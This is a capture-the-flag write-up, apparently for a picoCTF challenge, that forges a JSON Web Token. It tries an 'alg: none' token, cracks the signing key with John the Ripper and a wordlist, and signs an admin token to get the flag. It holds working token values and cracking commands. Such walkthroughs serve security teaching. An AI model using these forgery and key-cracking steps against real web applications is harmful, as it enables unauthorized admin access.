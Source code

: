 This is a learning-solving question.

Both website and hint tell us to look up JWT. 

After searching `JWT vulnerabilities` in Google, you can find this:

<https://auth0.com/blog/critical-vulnerabilities-in-json-web-token-libraries/>

But after implementing this method, it seems wrong. When you Change the `jwt cookies` to 

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VyIjoiYWRtaW4ifQ.
```

Which stands for the payload: 

```json
{
  "typ": "JWT",
  "alg": "none"
}

{
  "user": "admin"
}

{

}
```

You only get an 500 error. 

Read through this article <https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens> , combining the [hint](https://github.com/magnumripper/JohnTheRipper) they give, we can guess that we should bruteforce the password.

Also, because this scratchpad only use username as identity, we can guess that the `key` that used for encryption is fixed.

We can start solving this question after we know what to do.

First, generate a arbitrary `jwt cookies`. I will use username `john` here.

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y
```

Then, use [john-the-ripper](https://github.com/openwall/john) to bruteforce the key. You can use dictionary [rockyou](https://www.google.com/search?q=rockyou+txt) to bruteforce.

```
echo -n "eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiam9obiJ9._fAF3H23ckP4QtF1Po3epuZWxmbwpI8Q26hRPDTh32Y" > passwd

john --wordlist=./rockyou.txt passwd
```

We can see that the key is `ilovepico`.

We can then change the original payload using our key. You can conveniently do this step here: <https://www.jsonwebtoken.io/> 

After changing the user into `admin`, you can get the result JWT string:

```
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiYWRtaW4iLCJqdGkiOiI5NTc0NWVkNC04ZmVkLTRhZWQtYmU3Zi1iMDI3MDU0ZjUzM2IiLCJpYXQiOjE2MDkxMTM2OTgsImV4cCI6MTYwOTExNzMwNH0.8Eq1KaMo8cDtH3o79g04qKtx_muepD1zqGss3oiekPs
```

Replacing the original `jwt cookies` in the question to this, we can finally get the flag.